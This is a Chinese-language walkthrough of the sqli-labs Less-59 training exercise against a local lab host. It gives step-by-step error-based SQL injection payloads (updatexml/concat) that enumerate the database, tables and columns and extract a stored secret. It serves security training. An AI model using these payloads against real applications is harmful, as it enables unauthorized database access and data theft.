






# Less - 59

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.23.128/sqli-labs/Less-59/?id=1'
```

​​

根据错误显示判断这里为数字型注入。因为有完整的错误显示，所以这里我们使用报错注入攻击

---

## 2、查看当前库

---

```http
http://192.168.23.128/sqli-labs/Less-59/?id=1 and updatexml(1,concat(0x7e,(database()),0x7e),1)--+
```

​​

---

## 3、查看challenges库下的所有表

---

```http
http://192.168.23.128/sqli-labs/Less-59/?id=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e),1)--+
```

​​​​

---

## 4、查看bnthd9a29e表下的所有字段

---

```http
http://192.168.23.128/sqli-labs/Less-59/?id=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='bnthd9a29e'),0x7e),1)--+
```

​​

---

## 5、查看secret_1Y9H字段下的值

---

```http
http://192.168.23.128/sqli-labs/Less-59/?id=1 and updatexml(1,concat(0x7e,(select group_concat(secret_1Y9H) from challenges.bnthd9a29e),0x7e),1)--+
```

​​

​​
